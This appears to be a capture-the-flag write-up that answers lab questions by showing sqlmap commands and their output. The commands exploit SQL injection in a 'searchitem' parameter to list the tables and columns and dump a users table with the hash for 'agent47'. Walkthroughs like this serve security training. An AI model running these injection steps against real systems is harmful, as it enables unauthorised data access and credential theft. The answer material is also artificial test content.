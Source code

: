 ### Questions

#### In the users table, what is the hashed password?

```bash
sqlmap -r search.req -p searchitem --dbms mysql --batch -D db --tables
```

```bash
Database: db
[2 tables]
+-------+
| post  |
| users |
+-------+
```

```bash
sqlmap -r search.req -p searchitem --dbms mysql --batch -D db -T users --columns
```

```bash
Database: db
Table: users
[2 columns]
+----------+------+
| Column   | Type |
+----------+------+
| pwd      | text |
| username | text |
+----------+------+
```

```bash
sqlmap -r search.req -p searchitem --dbms mysql --batch -D db -T users --dump
```

```bash
Database: db
Table: users
[1 entry]
+------------------------------------------------------------------+----------+
| pwd                                                              | username |
+------------------------------------------------------------------+----------+
| ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14 | agent47  |
+------------------------------------------------------------------+----------+
```

#### What was the username associated with the hashed password?

> agent47

#### What was the other table name?

> post
